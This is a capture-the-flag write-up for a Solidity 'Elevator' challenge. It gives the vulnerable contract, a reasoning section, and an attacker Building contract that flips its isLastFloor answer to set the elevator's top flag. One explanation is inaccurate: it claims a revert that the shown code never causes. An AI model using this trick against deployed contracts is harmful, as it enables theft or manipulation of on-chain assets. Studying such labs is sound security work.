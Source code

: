 # **Level 11 -- Elevator**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
`````` 
---
## ***Objectives***
* Go to floor
---
## ***Thought Process***
In the `goTo` function, `Building building = Building(msg.sender)` means the contract using interface to call other contract function. Therefore we can create a `building` contract by our own. 

In order to satisfy the `! building.isLastFloor(_floor)` condition, the return value should equal to `false`. However in ` top = building.isLastFloor(floor);` the return value should equal to `true` or the fucntion called would be reverted with error.

As a result, in our `Building` contract, we should make the return value changed when we called the `goTo()` function.

---
## ***Solution***
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    address public levelInstance;
    bool public isFloor = true;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function isLastFloor(uint256) external returns (bool) {
        isFloor = !isFloor;
        return isFloor;
    }

    function go(uint256 floor) public {
        IElevator(levelInstance).goTo(floor);
    }

}

```



